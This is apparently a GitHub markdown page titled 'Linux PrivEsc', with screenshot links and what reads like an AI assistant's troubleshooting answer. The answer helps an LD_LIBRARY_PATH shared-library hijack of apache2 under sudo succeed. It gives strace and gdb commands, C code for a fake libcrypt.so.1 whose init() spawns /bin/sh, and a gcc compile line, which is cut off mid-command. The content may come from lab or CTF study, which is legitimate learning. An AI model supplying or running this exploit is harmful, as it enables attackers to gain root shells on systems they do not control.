 # Linux PrivEsc


![image](https://github.com/user-attachments/assets/19bf9abb-d4af-4c70-899e-a660abcce690)

writable etc/shadow
![image](https://github.com/user-attachments/assets/2a2626cf-12b6-4179-8deb-31acb2a31b26)

---------------
If the exploit doesn't work as expected, the issue is likely with the `library_path.c` code or how the shared object is being used. Here’s how you can troubleshoot and potentially fix the problem.

### **1. Understanding Why It Might Fail**

Several factors could cause the exploit to fail:

- **Functionality Mismatch**: The custom shared object might not correctly mimic the functions expected by `apache2`. If `apache2` calls a function from `libcrypt.so.1` and the custom shared object doesn't provide it (or provides it incorrectly), the program might crash or fail to execute.
  
- **Security Mechanisms**: Modern systems may have security mechanisms in place that detect and block this type of exploitation. For example, `LD_LIBRARY_PATH` might be ignored by `sudo` for certain binaries.

- **Library Path Precedence**: The `LD_LIBRARY_PATH` variable might not be properly overriding the library path, causing the original library to be loaded instead of your malicious version.

### **2. Troubleshooting Steps**

#### **Step 1: Verify Basic Functionality**
- Ensure that your compiled shared object (`libcrypt.so.1`) is being used by `apache2`. You can use `strace` to trace system calls and check if your library is being loaded:
  ```bash
  strace -e openat sudo LD_LIBRARY_PATH=/tmp apache2 2>&1 | grep libcrypt.so.1
  ```
  This should show if `apache2` is attempting to load `/tmp/libcrypt.so.1`.

#### **Step 2: Debugging**
- If the program crashes or doesn't run as expected, try running `apache2` without `sudo` to see if it provides any error messages or clues:
  ```bash
  LD_LIBRARY_PATH=/tmp apache2
  ```

- Use `gdb` (GNU Debugger) to step through the execution of `apache2` and see where it fails:
  ```bash
  sudo gdb --args apache2
  ```
  This can help identify if the issue is with a specific function or if `apache2` is even reaching the point where your shared object should execute.

#### **Step 3: Simplify the Exploit**
- Start by writing a very basic shared object that you know should execute correctly:
  ```c
  #include <stdio.h>
  #include <stdlib.h>

  void init() {
      printf("Injected library loaded!\n");
      system("/bin/sh");
  }
  ```
  - The `init()` function in this code will be called when the shared object is loaded. It prints a message and then spawns a shell. Compile and test it:
    ```bash
    gcc -o /tmp/libcrypt.so.1 -shared -fPIC /path/to/your/simplified_library.c